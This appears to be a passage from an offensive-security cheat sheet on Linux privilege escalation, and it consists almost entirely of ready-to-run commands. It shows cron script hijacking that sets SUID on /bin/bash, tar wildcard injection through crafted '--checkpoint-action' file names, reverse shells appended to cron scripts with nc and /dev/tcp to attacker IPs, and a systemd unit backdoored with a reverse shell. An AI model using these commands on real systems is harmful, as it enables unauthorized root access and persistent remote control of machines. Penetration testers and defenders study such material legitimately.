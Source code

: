 ```
// Save & Exit the Script
Attacker

nc -lvnp 443
OR

Target

cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import os

os.system("chmod +s /bin/bash")

// Save & Exit the Script

Wait a While
/bin/bash -p
id && whoami

Example 5

Privilege Escalation via Tar Cron Job

cat /etc/crontab
Output Example: */1 *   * * *   root tar -zcf /var/backups/html.tgz /var/www/html/*
cd /var/www/html/
echo "chmod +s /bin/bash" > priv.sh
echo "" > "--checkpoint-action=exec=bash priv.sh
echo "" > --checkpoint=1
tar cf archive.tar *

// If it does not work , replace "bash" with "sh"
```

### Escalate priv by adding /bin/bash to script for a user (need pass or sudo permission)
```
sudo -u user /bin/bash /var/www/html/start.sh
```
### Escalate by adding nc to cron job
```
# The cron service searches its spool area (usually /var/spool/cron/crontabs) for crontab files (which are named after user accounts); cron also reads /etc/crontab, 
echo "nc 192.168.2.x 4444 -e /bin/bash" >> /var/cron/check.sh
OR
echo "bash -i >& /dev/tcp/10.8.0.11/3222 0>&1" > /home/user/cron_script.sh
```
### Low privilege printf command to overwrite file contents
```
https://haxor.no/en/article/systemd-backdoor

printf "[Unit]\nDescription=Custom Setup Service\n\n[Service]\nType=oneshot\nExecStart=/usr/local/bin/setup.sh\n\n[Install]\nWantedBy=multi-user.target"
Change to
printf "[Unit]\nDescription=Custom Setup Service\n\n[Service]\nType=oneshot\nExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/4444 0>&1'\n\n[Install]\nWantedBy=multi-user.target" > service.name
```